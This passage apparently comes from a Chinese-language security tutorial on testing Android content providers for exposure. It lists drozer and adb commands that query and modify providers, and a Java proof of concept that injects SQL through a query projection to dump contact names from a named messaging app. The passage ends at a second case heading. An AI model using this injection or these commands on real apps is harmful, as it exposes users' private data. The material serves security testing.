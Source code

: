 ## 0x04 测试方法
1、反编译查看AndroidManifest.xml（drozer扫描）文件定位content provider是否导出，是否配置权限，确定authority  
drozer:  
`run app.provider.info -a cn.etouch.ecalendar`

2、反编译查找path，关键字addURI、hook api 动态监测推荐使用zjdroid  
3、确定authority 和path 后根据业务编写POC、使用drozer、使用小工具Content Provider Helper、adb shell // 没有对应权限会提示错误
```
adb shell：
adb shell content query --uri <URI> [--user <USER_ID>] [--projection <PROJECTION>] [--where <WHERE>] [--sort <SORT_ORDER>]
content query --uri content://settings/secure --projection name:value --where "name='new_setting'" --sort "name ASC"
adb shell content insert --uri content://settings/secure --bind name:s:new_setting --bind value:s:new_value
adb shell content update --uri content://settings/secure --bind value:s:newer_value --where "name='new_setting'"
adb shell content delete --uri content://settings/secure --where "name='new_setting'"
```
drozer：  
`run app.provider.query content://telephony/carriers/preferapn --vertical`

## 0x05 案例
### 案例1：直接暴露
``` java
private void getyouni()
{

    int i = 0;

    ContentResolver contentresolver = getContentResolver();

    String[] projection = {"* from contacts--"};

    Uri uri = Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");

    Cursor cursor = contentresolver.query(uri, projection, null, null, null);

    String text = "";

    while (cursor.moveToNext())
    {

        text += cursor.getString(cursor.getColumnIndex("display_name")) + '\n';

    }

    Log.i("TEST", text);

}
```
### 案例2：需权限访问
